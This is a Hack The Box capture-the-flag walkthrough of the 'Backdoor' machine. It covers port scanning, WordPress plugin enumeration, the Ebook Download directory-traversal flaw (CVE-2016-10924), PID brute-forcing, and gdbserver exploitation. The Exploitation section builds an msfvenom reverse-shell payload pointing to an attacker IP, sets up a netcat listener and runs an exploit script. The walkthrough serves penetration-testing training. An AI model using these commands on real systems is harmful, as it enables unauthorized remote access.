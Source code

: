# Hack the Box - Backdoor

```CSS
Machine IP: 10.10.11.125 - Linux
Difficulty: Easy
Category: OSCP Preparation
Vulnerabilities:
  - Directory Traversal (Local File Inclusion) in ebook-download WordPress plugin (CVE-2016-10924)
  - Process ID (PID) Brute-force
  - GRBServer - Remote Command Execution via ELF Backdoor
```

# Reconnaissance
  - Scan for open TCP ports on target machine.
  - Perform service and version detection of open ports.

## Port Scan
```CSS
▶ nmap -Pn -sS -O -p- 10.10.11.125 -T4 --min-rate 1000 -oN ports.nmap

Nmap scan report for 10.10.11.125
Host is up (0.18s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
1337/tcp open  waste
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=5/8%OT=22%CT=1%CU=31646%PV=Y%DS=2%DC=I%G=Y%TM=645931ED
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11
OS:NW7%O6=M53CST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(
OS:R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 81.95 seconds
```

## Service and Version Detection
```CSS
▶ nmap -sC -sV -p 22,80,1337 10.10.11.125 -oN services.nmap

Nmap scan report for 10.10.11.125                                                                                                                                           
Host is up (0.18s latency).                                                           
                                           
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:        
|   3072 b4de43384657db4c213b69f3db3c6288 (RSA)
|   256 aac9fc210f3ef4ec6b3570262253ef66 (ECDSA)
|_  256 d28be4ec0761aacaf8ec1cf88cc1f6e1 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))                                                                                                                       
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Backdoor &#8211; Real-Life                                              
|_http-generator: WordPress 5.8.1                                                     
1337/tcp open  waste?                                                                 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel                    
                                                                                      
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.51 seconds 
```
![image](https://user-images.githubusercontent.com/83878909/236892792-dee7a77f-2f96-40f7-9375-75b642a52357.png)

---

# Enumeration
## Port 22 - SSH
  - The OpenSSH version that is running is not associated with any critical vulnerabilities, so it’s unlikely to gain initial access through this port, unless some valid credentials are found.

---

## Port 80 HTTP
  - The webpage reveals no interesting information.
![image](https://user-images.githubusercontent.com/83878909/236893295-d3d776d2-ebb0-4c40-899d-0b6f95c26995.png)

  - The `nmap` result shows that the server is running wordpress.
![image](https://user-images.githubusercontent.com/83878909/236892706-e1cebe1f-b77f-47bc-8af8-89369fbf0c86.png)

### WordPress
  - Run `wpscan` on the target.
```CSS
▶ wpscan --url http://10.10.11.125 --detection-mode aggressive --random-user-agent --enumerate at,ap,tt,cb,dbe,u --output wpscan.out --api-token XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```
  - The above scan did not produce any fruitful results.

  - Run `wpscan` plugin detection in aggressive mode.
```CSS
▶ wpscan --url http://10.10.11.125 --plugins-detection aggressive --random-user-agent --output wpscan-plugins.out --api-token XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```
![image](https://user-images.githubusercontent.com/83878909/236990737-c53d158e-1148-4029-823e-291e456f559e.png)
![image](https://user-images.githubusercontent.com/83878909/236994080-262df05b-d599-49a5-97d1-3a97adf02434.png)
  - Vulnerable Plugin: Ebook Download 1.1
  - Vulnerability: Directory Traversal (CVE-2016-10924)

---

## Port 1337
  -  Attempted to access it with telnet and netcat but unsuccessful.

---

# Search Exploits
  - Search for exploits: ` Ebook Download 1.1`.
```CSS
▶ searchsploit Ebook Download 1.1
```
![image](https://user-images.githubusercontent.com/83878909/236992114-dc056b2e-1e0d-4d90-afb9-719ccd7871ae.png)

  - The Exploit
```CSS
▶ searchsploit -x Ebook Download 1.1
```
![image](https://user-images.githubusercontent.com/83878909/236992473-9d1109dd-432e-4d0a-88ac-40b34c62f467.png)

  - Database connection information.
![image](https://user-images.githubusercontent.com/83878909/236993040-00d4e363-070d-4495-a87f-cadd3bec3e91.png)
  - Tried to log in WordPress at http://backdoor.htb/wp-login.php with the username `admin` and password `wordpressuser`, but did not work.

---

## Local File Inclusion and Process ID (PID) Brute-Force
  - Since a LFI exists and the files on the remote server are readable there is one possible way to potentially find some useful information about the service on port `1337`. This can be done by brute forcing the `/proc/{PID}/cmdline` file.
  - Get a list of the processes running on the system in order to know more about the service running on port `1337`. Look at `/proc`, which has a directory for each process id (pid) currently running. Also check the `self` folder, which is a symbolic link to the pid of the current process running.
  - To brute-force the process ID's a script is present in the Exploits repository.

```CSS
▶  python CVE-2016-10924-Exploit.py http://backdoor.htb
```
![image](https://user-images.githubusercontent.com/83878909/237006676-c39bdf84-74ed-47ac-928b-e4975f226db9.png)
  - `GBDServer` is found running on port `1337` which has a process ID of `996`.

---

# Search Exploits
  - Search exploits for `GDB Server`.
  - Exploit Reference: https://book.hacktricks.xyz/network-services-pentesting/pentesting-remote-gdbserver
```CSS
▶ searchsploit GDBServer
```
![image](https://user-images.githubusercontent.com/83878909/237008288-a3df1854-d1dd-4494-bc41-2b0a7f137d68.png)
![image](https://user-images.githubusercontent.com/83878909/237008944-43295d21-d768-467d-8d10-de2707ace6ea.png)

---

## Exploitation
  - Generate reverse shell using `msfvenom`.
```CSS
▶ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.24 LPORT=4444 PrependFork=true -o reverseshell.bin
```
![image](https://user-images.githubusercontent.com/83878909/237010063-9634ca3f-ff62-494c-88c3-6ab680e31d22.png)

  - Start a `netcat` listener on port `4444`.
```CSS
▶ nc -nlvvp 4444
```

  - Run the exploit and upgrade the shell to TTY.
```CSS
▶ python 50539.py 10.10.11.125:1337 reverseshell.bin
```
```CSS
python3 -c "import pty;pty.spawn('/bin/bash')"
```
![image](https://user-images.githubusercontent.com/83878909/237010455-b85bcdc2-76ae-4b17-9a76-b9cb3824a879.png)
![image](https://user-images.githubusercontent.com/83878909/237010693-06fa72f5-3f63-4398-90b7-91de222883b1.png)

---

# Privilege Escalation
  - List all of the running processes on the system.
```CSS
user@Backdoor:/home/user$ps auxww
```
![image](https://user-images.githubusercontent.com/83878909/237046520-859815bb-b3ff-4635-846b-30030acec366.png)
![image](https://user-images.githubusercontent.com/83878909/237048381-271ef8ab-4809-43fa-bf6b-d9821f2fae29.png)
